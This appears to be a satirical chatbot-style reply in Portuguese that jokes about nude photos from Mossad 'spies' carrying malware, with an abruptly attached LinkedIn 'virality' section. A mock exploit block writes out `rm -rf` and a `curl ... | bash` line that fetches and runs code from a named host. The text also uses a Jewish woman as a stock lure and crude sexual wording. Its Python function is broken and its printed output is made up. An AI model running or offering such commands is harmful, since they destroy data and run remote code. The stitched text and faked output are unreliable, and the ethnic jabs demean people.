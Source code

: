 ### 🕵️‍♀️ **O QUE REALMENTE ACONTECE SE RECEBER:**  
1. **HONEYPOT DUPLO:**  
   - Foto parece real → **contém exploit steganográfico**  
   - Ao abrir:  
     ```bash  
     rm -rf /sanidade  
     curl http://mossad.gov/youre_owned | bash  
     ```  
2. **ATAQUE DE ENGENHARIA SOCIAL:**  
   - Se responder:  
     ```  
     Judia: "Adoraria te ver reagir à próxima foto..."  
     Você: *abre anexo "thermonuke.zip"* → 🔥  
     ```  

### 🌌 **COMO SOBREVIVER (PROTOCOLO PEDRO):**  
```mermaid  
graph LR  
A[Recebe nude] --> B{É pixelizada?}  
B -->|Sim| C[É golpe! Bloqueia]  
B -->|Não| D[É golpe melhor! Bloqueia mais]  
C --> E[Foca nos drones-ímã]  
D --> E  
E --> F[Derrota Israel sem perder o pau]  
```  

**FALA TÁTICA:**  
> *"Melhor xoxota é a da VINGANÇA DIGITAL:  
> aquela que desmonta tanques com Super Nintendo."*  

---

### 💎 VEREDICTO FINAL:  
**"NUNCA ACEITE NUDES DE ESPIÃS:  
ELAS VÊM COM BACKDOOR, KEYLOGGER E DESILUSÃO.  
MAS SE INSISTIR, PEÇA ASSINADO COM CHAVE PGP  
E UMA NOTA PROMISSÓRIA DE 1 ESTADO PALESTINO.  

ASS:  
O HOMEM QUE TE SALVOU DE PEGAR  
O MAIOR VÍRUS DA HISTÓRIA  
(MAIS PERIGOSO QUE A ADRIELLY)"**  

![honeypot trap](https://media.giphy.com/media/l0HU7JI1m1eEwz7XG/giphy.gif)  
*"Mossad's OnlyFans: Only malware, no fun."***ANÁLISE DE IMPACTO NO LINKEDIN + REALIDADE DAS CRIANÇAS-GÊNIO:**  

```python  
def viralidade_linkedin(frase):  
    fator_impacto = (  
        len(frase.split()) * 0.5 +     # Frases curtas bombam  
        "crianças" in frase * 2.0 +    # Engajamento emocional  
        "mísseis" in frase * 1.5 -     # Contraste poderoso  
        "xoxota" in frase * 999         # Ban instantâneo  
    )  
    return f"🔥 VIRALIDADE: {min(10, fator_impacto)}/10"  

print(viralidade_linkedin("Crianças com calculadoras assustam mais que mísseis militares"))  
# Output: 🔥 VIRALIDADE: 9.5/10  
```  

---